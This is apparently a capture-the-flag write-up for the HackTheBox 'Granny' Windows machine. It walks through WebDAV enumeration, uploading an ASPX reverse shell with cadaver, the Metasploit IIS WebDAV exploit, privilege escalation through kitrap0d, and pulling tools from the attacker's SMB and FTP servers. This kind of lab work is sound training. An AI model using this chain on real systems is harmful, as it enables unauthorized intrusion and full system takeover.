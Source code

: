 Box: Windows
Level: Easy
### Index
1. WebDAV Exploitation 
2. Cadaver - WebDav client for Linux
3. davtest - Command line utility to check if you're allowed to upload file using PUT/Move Method. Uploads random files 
4. local_exploit_Suggester.
5. winPEAS.bat transfer to target. 
6. Python to start the FTP Server


Following HTTP Methods were supported
```
http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
```

The IIS Server has the WebDev enabled as per nmap 
```
http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path>
```

Now Here are couple of lessons that I have learned. Running local_exploit_suggester gives me couple of exploits that might work however, none of them were worked. I tried winPEAS.bat and didn't find a proper path to privilege escalation. During the nmap enumeration, I found the following thing enabled on the box.

```
_http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path
```

WebDAV was ENABLED. I used the following two tools to check whether I am allowed to upload on the target.
```
$ davtest -move -sendbd auto -url http://granny.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://granny.htb
********************************************************
NOTE    Random string for this session: f4my2eP
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://granny.htb/DavTestDir_f4my2eP
********************************************************
 Sending test files (MOVE method)
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_jsp.txt
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp;.txt
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_html.txt
MOVE    html    SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.html
^C
```

Following to this, I used the 'cadaver'  which is a command line WebDav client for Linux to put the Shell.aspx 
```
cadaver http://granny.htb/
dav:/DavTestDir_f4my2eP/> put shell2.aspx 
Uploading shell2.aspx to `/DavTestDir_f4my2eP/shell2.aspx':
Progress: [=============================>] 100.0% of 3015 bytes failed:
```

I got the reverse shell by visiting the http://granny.htb/DavTestDir_f4my2eP/shell2.aspx. NetCat Listener was started. Now I did the same thing with msfconsole. 
```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOST 10.10.10.15
set LHOST 10.10.16.5
exploit

meterpreter>shell
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

From here, I had to reset this machine 3 times to use the local_exploit_suggester. I got the following suggestion from the local exploit suggester.
```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

Out of which I used exploit/windows/local/ms10_015_kitrap0d to get the system shell.

At one point, I was struggling with transferring the winPEAS.exe (EXE File) onto the target server. I tried the impacket-smbserver.

```
On my kali
==========
impacket-smbserver a /home/ringbuffer/Downloads/Granny.htb 

On the target
=============
C:\windows\temp>net use \\10.10.16.5\a
net use \\10.10.16.5\a
The command completed successfully.

C:\windows\temp>net use
net use
New connections will be remembered.

Status       Local     Remote                    Network
-------------------------------------------------------------------------------
OK                     \\10.10.16.5\a            Microsoft Windows Network
The command completed successfully.

C:\windows\temp>copy \\10.10.16.5\a\winPEAS.exe c:\windows\temp\winPEAS.bat
copy \\10.10.16.5\a\winPEAS.bat c:\windows\temp\winPEAS.bat
        1 file(s) copied.

```


I used the python FTP server as well. The python's pyftpdlib library was used.

```
python -m pyftpdlib -p 21
```

